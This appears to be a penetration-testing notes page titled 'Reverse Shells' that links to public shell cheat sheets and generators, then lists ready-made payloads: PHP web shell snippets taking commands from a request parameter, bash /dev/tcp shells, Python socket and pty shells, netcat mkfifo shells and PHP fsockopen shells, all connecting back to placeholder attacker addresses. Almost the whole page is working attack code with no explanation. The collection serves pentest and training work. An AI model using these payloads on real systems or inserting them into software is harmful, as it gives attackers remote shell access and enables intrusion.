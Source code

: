 # ⭕ Reverse Shells

## List

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#php" %}
Reverse Shell List
{% endembed %}



## Reverse Shell Online Generators

Host locally :&#x20;

{% embed url="https://github.com/0dayCTF/reverse-shell-generator" %}

{% embed url="https://www.revshells.com" %}

{% embed url="http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet" %}

#### `PHP Payloads`

```php
<?php phpinfo(); ?>
<?php system('id'); ?>
<?php system($_GET[‘cmd’]); ?> //in user-agent
```

#### `Bash TCP`

```bash
bash -i >& /dev/tcp/0.0.0.0/8899 0>&1
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

#### `Python`

```bash
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

python -c 'import socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())'
```

#### `Netcat`

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

rm /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f
```

#### `PHP`

```bash
php -r '$sock=fsockopen("10.0.0.1",4242);exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",4242);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",4242);`/bin/sh -i <&3 >&3 2>&3`;'
php -r '$sock=fsockopen("10.0.0.1",4242);system("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",4242);passthru("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",4242);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
```
